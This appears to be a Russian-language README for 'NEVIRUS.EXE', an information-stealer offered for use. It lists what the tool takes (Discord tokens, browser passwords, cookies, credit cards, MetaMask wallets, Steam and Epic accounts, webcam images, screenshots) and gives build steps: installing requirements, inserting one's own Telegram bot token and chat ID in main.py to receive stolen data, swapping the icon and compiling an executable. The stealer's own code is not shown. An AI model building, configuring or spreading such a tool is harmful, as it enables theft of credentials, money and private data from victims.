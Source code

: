<h5>███╗░░██╗███████╗██╗░░░██╗██╗██████╗░██╗░░░██╗░██████╗░░░███████╗██╗░░██╗███████╗
████╗░██║██╔════╝██║░░░██║██║██╔══██╗██║░░░██║██╔════╝░░░██╔════╝╚██╗██╔╝██╔════╝
██╔██╗██║█████╗░░╚██╗░██╔╝██║██████╔╝██║░░░██║╚█████╗░░░░█████╗░░░╚███╔╝░█████╗░░
██║╚████║██╔══╝░░░╚████╔╝░██║██╔══██╗██║░░░██║░╚═══██╗░░░██╔══╝░░░██╔██╗░██╔══╝░░
██║░╚███║███████╗░░╚██╔╝░░██║██║░░██║╚██████╔╝██████╔╝██╗███████╗██╔╝╚██╗███████╗
╚═╝░░╚══╝╚══════╝░░░╚═╝░░░╚═╝╚═╝░░╚═╝░╚═════╝░╚═════╝░╚═╝╚══════╝╚═╝░░╚═╝╚══════╝</h5>
<br>
NEVIRUS.EXE - стилер который стиилит практически все с отправкой Telegramm

##
<img src="https://media.discordapp.net/attachments/1105535780253859905/1106676590018052106/nevirus.exe.png" width="925"></img>
<br>
by corpon
<hr style="border-radius: 2%; margin-top: 60px; margin-bottom: 60px;" noshade="" size="20" width="100%">

<h1>Что стилит</h1>

-   Screenshot
-   Webcam
-   Pc info
-   Discord token
-   Telegramm
-   File zilla
-   Meta mask
-   Browser data
    -   Cookies
    -   Passwords
    -   Hystory
    -   Credit Cards
    -   Firefox и все браузеры на основе chromium 
-   Games launcher
    -   Epic Games
    -   Steam
    -   Maincraft

<h1>Download</h1>
после того как вы скачали стилер откройте cmd в директории с ним и пропишите

    pip install -r requirments.txt
далее откройте файл main.py через редактор кода и измените токен бота и чат id на свой

    chat_id = ''#СЮДА CHAT ID
    bot = telebot.TeleBot('')#СЮДА ТОКЕН БОТА
    
теперь замените файл icon.ico на свою иконку и запускайте файл compile.bat
<br>
после этого появиться папка dist где и будет лежать exe силера 
